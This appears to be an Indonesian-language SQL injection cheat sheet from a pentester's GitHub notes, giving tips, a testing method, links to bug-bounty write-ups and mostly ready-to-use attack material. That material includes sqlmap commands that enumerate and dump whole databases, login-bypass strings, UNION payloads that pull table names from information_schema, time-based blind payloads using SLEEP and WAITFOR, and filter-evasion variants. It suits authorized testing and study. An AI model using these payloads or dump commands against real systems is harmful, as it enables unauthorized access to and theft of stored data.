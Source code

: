 # SQL Injection

## Tips
- Tidak semua payload biasa dijalankan di address-bar browser, kadang harus menggunakan burpsuite (repeater)
- Blind SQL injection generate error 500
- Pada injection login, coba test inject for username dahulu, kalau tidak bisa coba inject kedua username dan password
- Kalau value parameter yang injection kan adalah string maka mengunnakan 1='1 atau '1'='1'
- Blind berbeda dengan OOB
- Comment /*string*/ disebut juga obfusacator, pada MySQL 5.5.30 or higher, sintak berikut `SELECT 1 /*!50530 + 1*/` akan dieksekusi sebagai 2 bukan 1.
- OOB Channel -> DNS, email, Database connection
- logical true, hanya bisa menggunakan untuk true saja.
- union select 'asd' , bisa merefleksikan 'asd' pada HTTP response
- Error tidak selalu menjadikan patokan bah itu celah sqli, kadang celah tersebut tidak menghasilkan error tetapi ketika kita union 'asd' malah terfeleksikan 'asd' di response body 
- Cari parameter yang menjadi penetu perubahan data pada response
- Cara parameter yang reflected ke response

## langkah-langkah
1. Identifikasi DB apa yang digunakan, salah satu caranya adalah dengan generate error sehaingga server menampilka informasi teknologi. Walaupun server tidak mereturkan error, tapi server selau mereturn databse yang digunakan ketika kita menijectkan payload finding db version.
2. Identify kapan dan dimana aplikasi akan berinteraksi dengan DB Server untuk mengakses data. Berikut kondisi umum aplikasi berinteraksi dengan DB server.
    - Authentication form, user dan password akan dicek pada database apakah ada atau tidak (kadang juga hash)
    - Search Engine, string yang disubmit oleh user digunakan untuk mengeksract semua data yang relevant pada database
    - E-commerce site, semua produk e-commerce stored di DB
2. List entry point/parameter yang bisa digunakan untuk menginputkan SQL query, seperti (__GET parameter, POST parameter, HTTP header, cookies__)
3. Coba generate error pada entry point/parameter yang sudah dikumpulkan pada langkah sebelumnya menggunakan `'` (digunakan untuk memisahkan string) dan `;` (digunakan untuk mengakhiri kueri SQL)
4. Coba meng-injek payload tanpa break query, bisa mengguna comment


## Celah Injection
- Header
    - User-agent
      ```
      sqlmap -u 'http://google.com' -p user-agent --user-agent=elseagent --technique=B --banner
      sqlmap -u 'http://google.com' -p user-agent --random-agent --technique=U --tamper=space2comment --suffix=';#' union-char=els --banner //Digunakan jika server blok spasi dan menggunakan commen '#'
      ```
- Parameter GET
- Parameter POST

## SQLMap
- Menggali isi DB
    ```
    sqlmap -u 'http://google.com' --current-db
    sqlmap -u 'http://google.com' -D <namaDB> --tables
    sqlmap -u 'http://google.com' -D <nameDB> -T <namaTable> --columns
    sqlmap -u 'http://google.com' -D <nameDB> -T <namaTable> --dump
    ```

## Payload
|Payload|Payload alternatif|
|---|---|
|Logical True/false|`' OR 1=1` biasaya pake ini<br>`' OR 6=6`<br>`' OR 0x47=0x47`<br>`' OR char(32)=6''`<br>`' OR 6 is not null`<br>`admin' --`<br>`admin' #`<br>`admin'/*`<br>`' or 1=1--`<br>`' or 1=1#`<br>`' or 1=1/*`<br>`') or '1'='1--`<br>`') or ('1'='1--`|
|`UNION SELECT asd`|`UNION SELECT` <br> `'UNION ALL SELECT` <br> `') uZEROFILLnZEROFILLiZEROFILLoZEROFILLn sZEROFILLeZEROFILLlZEROFILLeZEROFILLcZEROFILLt 'PoC'; -- -`|
|`+UNION+SELECT+1,2,(table_name),4,5+from+information_schema.tables--+`|`union select 1,2,group_concat(table_name),4,5 from information_schema.tables where table_schema=database()—`<br>`'union(select('asd');# ->digunakan ketika comment diblok` <br> `union(select(group_concat(table_name))from(information_schema.columns/tables)where(table_schema=database()));#`<br>`union select group_concat(table_name) from information_schema.tables where table_schema=schema(); —- - (MySQL)`|
|' AND (SELECT 9160 FROM (SELECT(SLEEP(1-(IF(2085>2084,0,5)))))htyF) AND 'SyEv'='SyEv|' AND (SELECT 2484 FROM (SELECT(SLEEP(5)))wMTT) AND 'pbuG'='pbuG|
```
http://192.168.2.3/news-and-events.php?id=-22 union select 1,group_concat(table_name),3,4,5,6,7 from information_schema.tables where table_schema=database()— //extract table name
```

|Database|Comment|
|---|---|
|Oracle|`--comment`|
|MySQL|`-- comment` `-- -comment` `; -- -comment` `#comment` `/*comment*/`(also obfuscator) `;%00`(nullbyte) `+--+/`|
|PostgreSQL|`--comment` `/*comment*/`|
|Microsoft|`--comment` `/*comment*/`|

  ```
  <spasi_kosong>
  '
  ')
  '))
  " / ") / "))
  `
  `)
  `))
  ```
  
|DB|Function (non-blind)|Function (blind)->string concatenation|Function (blind)->all function return an INTEGER NUMBER in the respective database while generate ERROR on all others|
|---|---|---|---|
|MySQL|@@version<br>@@global.version<br>version()|'Concat' 'enation'<br>CONCAT('Concat','enation')|CONNECTION_ID()<br>LAST_INSERT_ID()<br>ROW_COUNT()<br>...|
|MS SQL| @@version|'some'+'enation'<br>CONCAT('Concat','enation')|@@PACK_RECEIVED<br>@@ROW_COUNT<br>@@TRANCOUNT<br>...|
|Oracle|version FROM v$instance<br>banner FROM v$version WHERE banner LIKE 'oracle%'<br>banner FROM gv$version WHERE banner LIKE 'oracle%'|'Concat'\|\|'enation'<br>CONCAT('Concat','enation')|BITAND(0,1)<br>BIN_TO_NUMB(1)<br>TO_NUMBER(1231)<br>...|
    
## Writeups
|Title|Description|
|---|---|
|[SQL Injection at Spotify](https://infosecwriteups.com/sql-injection-at-spotify-d19e0861ddf0)|inject `' atau / atau \` dan amati error yang.<br>![image](https://user-images.githubusercontent.com/52058660/159397667-09fa2fdc-f9ec-4a36-b8dc-cd6cce2bc1f1.png)<br>![image](https://user-images.githubusercontent.com/52058660/159397603-504a8a1c-acf9-4ae1-8725-978f06f6061a.png)<br>![image](https://user-images.githubusercontent.com/52058660/159397728-b70f35f9-ab12-43cc-9483-67b9806c1ba9.png)<br>![image](https://user-images.githubusercontent.com/52058660/159397801-3e97cac7-76cb-46ca-9b08-7dde6c0a73a7.png)|
|[How I Hacked the Dutch Government with SQLi and Won the Famous T-Shirt?](https://goktugkaya.medium.com/how-i-hacked-the-dutch-government-and-won-the-famous-t-shirt-b45cdf5dfaa1)|Change GET to POST|
|[How I found a critical P1 bug in 5 minutes using a cellphone — Bug Bounty](https://medium.com/@mrempy/how-i-found-a-critical-p1-bug-in-5-minutes-using-a-cellphone-bug-bounty-303ebec3edd6)|injeksi pada login form<br>`admin’ and (select * from(select(sleep(40)))SQLI) and ‘abc’ = ‘abc`<br>menggunakan kiwi browser untuk menangkap request|
|[120 Days of High Frequency Hunting](https://kuldeep.io/posts/120-days-of-high-frequency-hunting/)|time delay vuln<br>`'; WAITFOR DELAY '00:00:10'-- -`|
|[Making a Blind SQL Injection a Little Less Blind](https://medium.com/@tomnomnom/making-a-blind-sql-injection-a-little-less-blind-428dcb614ba8)|sqli pada json, jika inject ' -> error, coba netralisir dengan /*'*/|
|[bypass sql injection #1109311](https://hackerone.com/reports/1224660)|`0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z`|
|[FUZZING FOR HIDDEN PARAMS](https://medium.com/@calfcrusher/fuzzing-for-hidden-params-671724bf3fd7)|fuzzing hidden parameter menggunakan ffuf|

## Resource
- [Web Security Academy - SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [HackTricks -  SQL Injection](https://book.hacktricks.xyz/pentesting-web/sql-injection)
- [Netsparker - SQL Injection Cheat Sheet](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
- [Finding an unseen SQL Injection by bypassing escape functions in mysqljs/mysql](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)
- [BigQuery SQL Injection Cheat Sheet](https://ozguralp.medium.com/bigquery-sql-injection-cheat-sheet-65ad70e11eac)
- [Dumping a complete database using SQL injection [updated 2021]](https://resources.infosecinstitute.com/topic/dumping-a-database-using-sql-injection/)
